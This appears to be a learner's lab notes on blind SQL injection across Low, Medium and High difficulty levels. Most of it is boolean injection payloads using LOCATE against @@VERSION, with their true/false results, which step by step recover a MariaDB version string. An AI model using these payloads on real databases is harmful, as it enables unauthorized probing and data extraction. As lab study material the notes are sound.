 ## Blind SQLi
- This one is purely based on trial and error, where you request a query that results true and then request a query that returns false. And by doing that we can eventually guess stuff.
- Below trial and error example is to get information regarding version of the data base
- AUTOMATED TOOL IN PROGESS
```
// ACTUAL VERSION - 10.4.17-MariaDB

1' AND LOCATE(10,@@VERSION); -- -      -> True

1' AND LOCATE(10.,@@VERSION); -- -      -> True

1' AND LOCATE(10.1,@@VERSION); -- -		-> False

1' AND LOCATE(10.4,@@VERSION); -- -      -> True

1' AND LOCATE(10.40,@@VERSION);-- -      -> False
1' AND LOCATE(10.41,@@VERSION);-- -      -> False
1' AND LOCATE(10.42,@@VERSION);-- -      -> False
1' AND LOCATE(10.43,@@VERSION);-- -      -> False
1' AND LOCATE(10.44,@@VERSION);-- -      -> False
1' AND LOCATE(10.45,@@VERSION);-- -      -> False
1' AND LOCATE(10.46,@@VERSION);-- -      -> False
1' AND LOCATE(10.47,@@VERSION);-- -      -> False
1' AND LOCATE(10.48,@@VERSION);-- -      -> False
1' AND LOCATE(10.49,@@VERSION);-- -      -> False

1' AND LOCATE("10.4.",@@VERSION);-- -      -> True

1' AND LOCATE("10.4.0",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.1",@@VERSION);-- -   -> True
1' AND LOCATE("10.4.2",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.3",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.4",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.5",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.6",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.7",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.8",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.9",@@VERSION);-- -   -> False

10.4.1

1' AND LOCATE("10.4.10",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.11",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.12",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.13",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.14",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.15",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.16",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.17",@@VERSION);-- -  -> True
1' AND LOCATE("10.4.18",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.19",@@VERSION);-- -  -> False

10.4.17

1' AND LOCATE("10.4.17.",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.170",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.171",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.172",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.173",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.174",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.175",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.176",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.177",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.178",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.179",@@VERSION);-- -         -> False

1' AND @@VERSION="10.4.17-MariaDB";-- -			-> True

1' AND "10.4.17"=@@VERSION;-- -
```

## Low
- `1' AND @@VERSION="10.4.17-MariaDB";-- -` this worked

## Medium
```
1 AND LOCATE(10,@@VERSION); -- -	-> True


1 AND LOCATE(10.4,@@VERSION); -- -	-> True


1 AND LOCATE(4.1,@@VERSION); -- -	-> True

1 AND LOCATE(4.17,@@VERSION); -- -	-> True

```
- Still gotta find a way to brute check string part of version.

## High
- `1' AND @@VERSION="10.4.17-MariaDB";-- -` this worked
